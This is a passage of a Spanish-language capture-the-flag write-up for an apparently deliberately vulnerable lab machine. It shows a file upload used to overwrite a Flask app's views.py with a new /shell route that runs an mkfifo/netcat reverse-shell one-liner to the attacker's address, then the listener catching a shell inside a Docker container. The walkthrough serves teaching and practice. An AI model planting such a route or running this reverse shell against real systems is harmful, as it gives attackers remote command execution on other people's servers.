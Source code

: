 ![Join]({{ 'assets/img/writeups/OpenSource/join.png' | relative_url }}){: .center-image }

Así que debido a esto podemos añadir un archivo a la ruta que queramos, o más bien podamos, con el permiso del usuario que lleve la web. Podría añadir una nueva ruta en el archivo views.py y una nueva función en esa ruta que nos mandará una reverse a nuestro ordenador. Podría deducir gracias al código que tenemos y la distribución de las carpetas en él, que views.py puede estar en /app/app/views.py. Además vimos antes que la de uploads estaba en /app/public/uploads.

En views.py añado nueva ruta, la ruta /shell, abajo del todo:
``` python
import os

from app.utils import get_file_name
from flask import render_template, request, send_file

from app import app


@app.route('/', methods=['GET', 'POST'])
def upload_file():
    if request.method == 'POST':
        f = request.files['file']
        file_name = get_file_name(f.filename)
        file_path = os.path.join(os.getcwd(), "public", "uploads", file_name)
        f.save(file_path)
        return render_template('success.html', file_url=request.host_url + "uploads/" + file_name)
    return render_template('upload.html')


@app.route('/uploads/<path:path>')
def send_report(path):
    path = get_file_name(path)
    return send_file(os.path.join(os.getcwd(), "public", "uploads", path))

@app.route('/shell')
def cmd():
    return os.system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.7 443 >/tmp/f")
```
Ahora interceptaré petición en burpsuite y añadiré la barra.

![Burp]({{ 'assets/img/writeups/OpenSource/burp2.png' | relative_url }}){: .center-image }

Le doy a "forward" en el burpsuite y parece que se ha subido, me sale "success" en la respuesta. Ahora si llamo a esa ruta /shell desde el navegador debería mandarme una reverse shell. Me pongo en escucha desde la terminal:
``` 
❯ nc -nlvp 443
listening on [any] 443 ...
```
Y desde el navegador `http://10.10.11.164/shell`. Todo correcto!, me llega la shell:
```
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.7] from (UNKNOWN) [10.10.11.164] 39169
/bin/sh: can't access tty; job control turned off
/app # 
```
Pero estoy en un docker.
